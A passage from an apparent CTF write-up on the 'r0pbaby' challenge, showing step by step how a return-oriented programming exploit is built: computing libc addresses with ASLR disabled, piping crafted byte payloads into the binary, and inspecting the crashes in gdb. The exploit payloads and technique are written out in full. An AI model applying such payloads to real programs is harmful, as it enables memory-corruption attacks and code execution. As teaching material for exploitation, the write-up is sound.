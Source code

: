 Since I have [ASLR off on my computer](https://stackoverflow.com/questions/5194666/disable-randomization-of-memory-addresses) (if you do turn it off, please make sure you turn it back on!), I can pre-compute the addresses I need.

Symbol system: 0x00007FFFF7883960 (from the program)

sh\_addr = system\_addr + 0x11f71c  
sh\_addr = 0x00007ffff7883960 + 0x11f71c  
sh\_addr = 0x7ffff79a307c

gadget\_addr = system\_addr + 0xa7969  
gadget\_addr = 0x00007ffff7883960 + 0xa7969  
gadget\_addr = 0x7ffff792b2c9

So now, let's change the exploit we used to crash it a long time ago (we replace the "B"s with the address of our gadget, in [little endian](https://en.wikipedia.org/wiki/Endianness) format:

```

$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00CCCCCCCCDDDDDDDD\n' | ./r0pbaby</strong>
Welcome to an easy Return Oriented Programming challenge...
[...]
Menu:
Segmentation fault (core dumped)
```

Great! It crashed as expected! Let's take a look at HOW it crashed:

```

$ <strong>gdb -q ./r0pbaby ./core</strong>
Core was generated by `./r0pbaby'.
Program terminated with signal SIGSEGV, Segmentation fault.
#0  0x00007ffff792b2cb in clone () from /lib64/libc.so.6
(gdb) x/i $rip
=> 0x7ffff792b2cb <clone>:  call   rax
</clone>
```

It crashed on the call at the end of the gadget, which makes sense! Let's check out what it's trying to call and what it's using as a parameter:

```

(gdb) <strong>print/x $rax</strong>
$1 = 0x4343434343434343
(gdb) <strong>print/x $rdi</strong>
$2 = 0x4444444444444444
```

It's trying to call "CCCCCCCC" with the parameter "DDDDDDDD". Awesome! Let's try it again, but this time we'll plug in our sh\_address in place of "DDDDDDDD" to make sure that's working (I strongly believe in incremental testing :) ):

```

$ <strong>echo -ne '3\n32\nAAAAAAAA\xc9\xb2\x92\xf7\xff\x7f\x00\x00CCCCCCCC\x7c\x30\x9a\xf7\xff\x7f\x00\x00\n' | ./r0pbaby</strong>
[...]
Segmentation fault (core dumped)
$ <strong>gdb -q ./r0pbaby ./core</strong>
[...]
(gdb) x/i $rip
=> 0x7ffff792b2cb <clone>:  call   rax
</clone>
```
